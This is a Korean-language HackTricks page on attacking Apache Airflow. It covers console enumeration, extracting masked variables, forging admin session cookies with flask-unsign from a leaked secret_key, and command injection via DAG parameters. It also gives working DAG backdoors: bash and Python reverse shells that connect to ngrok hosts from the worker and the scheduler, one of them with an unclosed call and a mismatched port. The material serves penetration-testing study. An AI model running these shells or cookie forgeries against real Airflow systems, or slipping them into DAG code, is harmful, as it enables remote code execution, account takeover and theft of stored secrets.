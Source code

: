 # Apache Airflow 보안

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 기본 정보

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 작동합니다. 데이터 파이프라인의 "조정"이란 다양한 소스에서 발생하는 복잡한 데이터 워크플로우를 배열, 조정 및 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리된 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신러닝 모델을 비롯한 다양한 응용 프로그램에서 널리 활용되며, 이는 대규모 데이터 응용 프로그램의 기능에 필수적입니다.

기본적으로 Apache Airflow를 사용하면 **코드 실행을 일정 시간에 예약**할 수 있습니다.

## 로컬 랩

### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)의 **도커-컴포즈 구성 파일을 사용하여** 완전한 Apache Airflow 도커 환경을 시작할 수 있습니다. (MacOS에서는 도커 VM에 적어도 6GB의 RAM을 할당해야 합니다).

### Minikube

Apache Airflow를 실행하는 **간단한 방법** 중 하나는 **minikube로 실행하는 것**입니다:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 구성

Airflow는 구성에서 **민감한 정보**를 저장할 수 있거나 취약한 구성을 찾을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow를 공격하기 전에 **권한이 작동하는 방식**을 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 공격

### 웹 콘솔 열거

웹 콘솔에 **액세스**할 수 있다면 다음 정보 중 일부 또는 모두에 액세스할 수 있습니다:

* **변수** (여기에 사용자 지정 민감한 정보가 저장될 수 있음)
* **연결** (여기에 사용자 지정 민감한 정보가 저장될 수 있음)
* `http://<airflow>/connection/list/`에서 액세스
* [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있음)
* 사용자 및 역할 목록
* 각 DAG의 **코드** (흥미로운 정보가 포함될 수 있음)

### 변수 값 검색

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 액세스**할 수 있습니다. 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 GUI에서 `http://<airflow>/variable/list/`에서 액세스할 수 있습니다.\
기본적으로 Airflow는 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **GUI**에서 **별표**로 표시될 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **검색**할 수 있습니다(DB 액세스 필요), **임의의 DAG** 실행, 변수 엔드포인트에 **API** 액세스(활성화해야 함) 및 **심지어 GUI 자체!**\
GUI에서 이러한 값을 액세스하려면 액세스하려는 **변수를 선택**하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
다른 방법은 **숨겨진 값**에 대한 **브루트포스**를 수행하여 해당 값을 얻을 때까지 **검색 필터링**하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

### 권한 상승

**`expose_config`** 구성이 **True**로 설정된 경우 **사용자 역할** 및 **이상**에서 **웹에서 구성을 읽을 수 있습니다**. 이 구성에는 **`secret_key`**가 나타나며, 이는 해당 유효한 사용자가 **자체 서명된 쿠키를 만들어 다른 사용자 계정을 표현**할 수 있음을 의미합니다.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG 백도어 (Airflow 워커에서의 RCE)

만약 **DAG가 저장된 위치에 쓰기 권한**이 있다면, **하나 생성**하여 **리버스 셸을 보낼 수 있습니다.**\
이 리버스 셸은 **airflow 워커 컨테이너 내에서 실행**될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 백도어 (Airflow 스케줄러에서 RCE)

만약 무언가를 **코드의 루트에서 실행하도록 설정**하면, 현재 이 문서를 작성하는 시점에서, DAG 폴더 안에 넣은 후 **몇 초 후에 스케줄러에 의해 실행**될 것입니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 생성

만약 **DAG 클러스터 내부의 기기를 침투**한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있고, 이는 DAG 클러스터 내의 다른 기기들에 **복제될 것**입니다.

### DAG 코드 삽입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 올바르게 작성되지 않은 경우 **Command Injection에 취약**할 수 있습니다.\
이것이 이 CVE에서 발생한 사례입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAGs에서 명령 삽입을 찾기 시작하려면** 알아야 할 것은 **매개변수**가 코드 **`dag_run.conf.get("param_name")`**로 **액세스**된다는 것입니다.

또한, **변수**에서도 동일한 취약점이 발생할 수 있습니다 (충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있음에 유의하십시오). 변수는 **다음과 같이 액세스**됩니다:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
만약 bash 명령어 안에서 사용된다면, 명령어 삽입을 수행할 수 있습니다.

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}
